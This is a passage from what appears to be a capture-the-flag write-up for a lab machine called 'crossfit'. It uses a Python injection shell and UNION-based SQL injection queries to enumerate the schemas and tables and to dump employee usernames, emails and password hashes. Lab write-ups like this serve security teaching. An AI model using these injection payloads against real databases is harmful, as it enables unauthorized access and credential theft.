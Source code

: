 ```py


Read_SQLI().cmdloop()
```

With this we can now easily query the databases and also have a command history. First we look for all available databases.

```php
$ python inject.py 
sm1l3z > union select null, group_concat(schema_name) from information_schema.schemata
information_schema,crossfit,employees
```

The `crossfit` db only contains the membership plans, which aren't of much use to us. However the `employees` database contains an `employees` table and a `password_reset` table.

```php
sm1l3z > union select null, group_concat(table_name) from information_schema.tables where table_schema = 'crossfit'
membership_plans
sm1l3z > union select null, group_concat(table_name) from information_schema.tables where table_schema = 'employees'
employees,password_reset
```

After querying the column names from the `employees` table we can retrieve all email addresses and password hashes.

```php
sm1l3z > union select null, group_concat(column_name) from information_schema.columns where table_name = 'employees'
id,username,password,email
```

```php
sm1l3z >  union select null, group_concat(id,' || ', username, ' || ',password, ' || ',email, '\n') from employees.employees
1 || administrator || fff34363f4d15e958f0fb9a7c2e7cc550a5672321d54b5712cd6e4fa17cd2ac8 || david.palmer@crossfit.htb
,2 || wsmith || 06b4daca29092671e44ef8fad8ee38783b4294d9305853027d1b48029eac0683 || will.smith@crossfit.htb
,3 || mwilliams || fe46198cb29909e5dd9f61af986ca8d6b4b875337261bdaa5204f29582462a9c || maria.williams@crossfit.htb
,4 || jparker || 4de9923aba6554d148dbcd3369ff7c6e71841286e5106a69e250f779770b3648 || jack.parker@crossfit.htb
```

Doing the same for the `password_reset` table, we see that it is currently empty.

```php
sm1l3z > union select null, group_concat(column_name) from information_schema.columns where table_name = 'password_reset'
email,token,expires
```

```php
sm1l3z >  union select null, group_concat(email, ' || ', token , ' || ', expires, '\n') from employees.password_reset
null
```
